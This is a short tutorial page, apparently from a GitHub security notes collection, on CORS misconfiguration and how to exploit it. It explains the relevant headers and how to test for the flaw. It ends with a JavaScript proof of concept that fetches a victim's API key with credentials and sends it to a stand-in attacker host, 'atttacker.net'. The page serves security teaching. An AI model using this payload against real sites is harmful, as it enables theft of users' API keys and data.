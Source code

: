 # CORS Insecure Configuration

CORS is a mechanism that allows restricted resources (e.g. fonts) on a web page to be requested from another domain outside the domain from which the resource originated. It's essentialy a way to relax SOP which would block AJAX requests from accesing data on a web page unless it is coming from the same origin.

## Access-Control-Allow-Origin

CORS adds a few special response headers that allow which sites can access which data.

* `Access-Control-Allow-Origin`: which domains can access a domain's resources.
* `Access-Control-Allow-Credentials`: whether the browser will send cookies with the request.
* `Access-Control-Allow-Methods`: which HTTP methods can be used to access resources.

```
Access-Control-Allow-Origin: * | null // BAD
Access-Control-Allow-Credentials: true // Poorly implemented, the best case for attack
Access-Control-Allow-Methods: * // BAD
```

It's easy to check headers in multiple request/responses using tools like Burp and Spider. You can simple add a new header in request body i.e `Origin: http://mysite.com | null` and if you find `Access-Control-Allow-Origin: mysite.com | null | *` then domain is vulnerable.

## Exploitation

We can make a request for resources with stored credentials for example, leak private resources, session hijacking, etc.

CORS can lead to major security risk like leaking of API keys, other users data or even much more.

## POC: Insecure Bitcoin Exchange

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://btc-exchange/api/requestApiKey',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.net/log?key='+this.responseText; 
};
```

* [Portswagger research](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
